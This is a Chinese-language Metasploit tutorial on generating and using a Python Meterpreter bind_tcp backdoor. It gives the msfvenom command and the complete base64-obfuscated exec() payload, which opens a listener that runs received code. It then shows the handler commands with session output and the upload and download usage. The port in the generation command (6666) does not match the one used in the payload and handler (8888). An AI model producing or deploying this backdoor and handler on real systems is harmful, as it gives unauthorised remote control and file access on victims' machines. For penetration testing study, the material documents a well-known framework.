 # Meterpreter of Metasploit教程

## 0x01 Backdoor生成

### meterpreter of python
使用MSF套件中msfvenom进行后门载荷的生成
>-p 选择payload
>lport 监听端口
>-o 载荷生成位置
```
msfvenom -p  python/meterpreter/bind_tcp lport=6666 -o /tmp/re111
```
生成python文件如下:
```
exec(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('aW1wb3J0IHpsaWIsYmFzZTY0LHNvY2tldCxzdHJ1Y3QKYj1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQpiLmJpbmQoKCcwLjAuMC4wJyw4ODg4KSkKYi5saXN0ZW4oMSkKcyxhPWIuYWNjZXB0KCkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdihsKQp3aGlsZSBsZW4oZCk8bDoKCWQrPXMucmVjdihsLWxlbihkKSkKZXhlYyh6bGliLmRlY29tcHJlc3MoYmFzZTY0LmI2NGRlY29kZShkKSkseydzJzpzfSkK')[0]))
```

## 0x02 漏洞利用（Exploit）
使用MSF套件中msfconsole，启动
```
msfconsole
```
### 通用的Backdoor会话管理模块

```
msf6> use exploit/multi/handler
#设置payload
msf6 exploit(multi/handler) > set payload python/meterpreter/bind_tcp
#设置RHOST（目标地址）
msf6 exploit(multi/handler) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
#设置LPORT（目标后门服务监听端口）
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
#执行
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 127.0.0.1:8888
[*] Sending stage (39800 bytes) to 127.0.0.1
[*] Meterpreter session 3 opened (127.0.0.1:7812 -> 127.0.0.1:8888 ) at 2022-02-16 11:26:51 +0800

meterpreter >
```
## 0x03 Meterpreter使用

### 上传/下载
upload
```
Usage: upload [options] src1 src2 src3 ... destination
-r  Upload recursively
```
downlaod
```
Usage: download [options] src1 src2 src3 ... destination

    -a   Enable adaptive download buffer size
    -b   Set the initial block size for the download
    -c   Resume getting a partially-downloaded file
    -h   Help banner
    -l   Set the limit of retries (0 unlimits)
    -r   Download recursively
    -t   Timestamp downloaded files
```


